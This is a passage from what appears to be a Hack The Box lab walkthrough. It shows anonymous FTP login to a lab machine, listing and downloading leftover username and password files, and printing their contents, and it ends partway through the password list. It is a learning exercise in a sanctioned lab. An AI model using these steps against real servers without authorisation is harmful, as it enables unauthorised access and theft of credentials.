 Users can connect to the FTP server anonymously if the server is misconfigured.
The `nmap` scan confirms that this FTP server indeed configured to allow anonymous login:

	ftp-anon: Anonymous FTP login allowed (FTP code 230)

In order to connect to this FTP server let's specify the target IP address (host name) for the `ftp` command, then use `anonymous` as username.

	┌─[eu-starting-point-vip-1-dhcp]─[10.10.14.26]─[scrage@htb-8pyoa9douu]─[~]
	└──╼ [★]$ ftp 10.129.110.241
	Connected to 10.129.110.241.
	220 (vsFTPd 3.0.3)
	Name (10.129.110.241:root): anonymous
	230 Login successful.
	Remote system type is UNIX.
	Using binary mode to transfer files.
	ftp>

Once connected, we can look around on the FTP server with the `dir` command to see what files we can find there.
We can see two interesting files there. They seem to be files left over from the configuration of another service on the host, most likely the HTTPD Web Server. Their names are descriptive, hinting towards a possible username list and associated passwords.

	ftp> dir
	229 Entering Extended Passive Mode (|||46505|)
	150 Here comes the directory listing.
	-rw-r--r--    1 ftp      ftp            33 Jun 08  2021 allowed.userlist
	-rw-r--r--    1 ftp      ftp            62 Apr 20  2021 allowed.userlist.passwd
	226 Directory send OK.

Both files can be downloaded using the `get` command.
Then we can just leave the FTP server to check our findings and to plan another exploitation vector.

	ftp> get allowed.userlist
	local: allowed.userlist remote: allowed.userlist
	229 Entering Extended Passive Mode (|||40438|)
	150 Opening BINARY mode data connection for allowed.userlist (33 bytes).
	100% |*********************************************************|    33       30.03 KiB/s    00:00 ETA
	226 Transfer complete.
	33 bytes received in 00:00 (3.40 KiB/s)
	ftp> get allowed.userlist.passwd
	local: allowed.userlist.passwd remote: allowed.userlist.passwd
	229 Entering Extended Passive Mode (|||47186|)
	150 Opening BINARY mode data connection for allowed.userlist.passwd (62 bytes).
	100% |*********************************************************|    62       20.83 KiB/s    00:00 ETA
	226 Transfer complete.
	62 bytes received in 00:00 (5.74 KiB/s)
	ftp> exit
	221 Goodbye.

	┌─[eu-starting-point-vip-1-dhcp]─[10.10.14.26]─[scrage@htb-8pyoa9douu]─[~]
	└──╼ [★]$ ls 
	allowed.userlist         cacert.der  Documents  Music    Pictures  Templates
	allowed.userlist.passwd  Desktop     Downloads  my_data  Public    Videos
	┌─[eu-starting-point-vip-1-dhcp]─[10.10.14.26]─[scrage@htb-8pyoa9douu]─[~]
	└──╼ [★]$ cat allowed.userlist
	aron
	pwnmeow
	egotisticalsw
	admin
	┌─[eu-starting-point-vip-1-dhcp]─[10.10.14.26]─[scrage@htb-8pyoa9douu]─[~]
	└──╼ [★]$ cat allowed.userlist.passwd
	root